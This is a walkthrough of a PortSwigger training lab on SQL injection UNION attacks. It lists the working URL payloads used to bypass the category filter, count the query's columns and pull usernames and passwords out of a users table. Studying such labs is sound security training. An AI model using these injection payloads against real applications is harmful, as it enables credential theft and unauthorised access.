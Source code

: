 
# SQL injection UNION attack, retrieving data from other tables

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called users, with columns called username and password.

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

---------------------------------------------

Reference: https://portswigger.net/web-security/sql-injection/union-attacks

---------------------------------------------

We see there are 2 values displayed in the table, the description and the content of the post:


<img width="1212" height="864" alt="1" src="https://github.com/user-attachments/assets/ccd84260-1bba-4ed6-8840-1e86f5ba599f" />



We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Gifts'--
/filter?category=Gifts'+or+1=1--
```

<img width="1520" height="800" alt="2" src="https://github.com/user-attachments/assets/1a2d4ede-69c4-4f5e-b23a-a0f1f4ce6536" />



Also, that there are 2 columns returned by the query and we can do a UNION attack with:

```
/filter?category=Gifts'+union+all+select+NULL,NULL--
```


<img width="1522" height="807" alt="3" src="https://github.com/user-attachments/assets/62d7b008-c5a9-4d47-8a76-827e51846931" />



Knowing the table and database names we can retrieve the content from users using the payload:

```
/filter?category=Gifts'+union+all+select+username,password+from+users--
```


<img width="1539" height="793" alt="4" src="https://github.com/user-attachments/assets/17842b4f-45c5-4e63-bd2b-b78775a64462" />

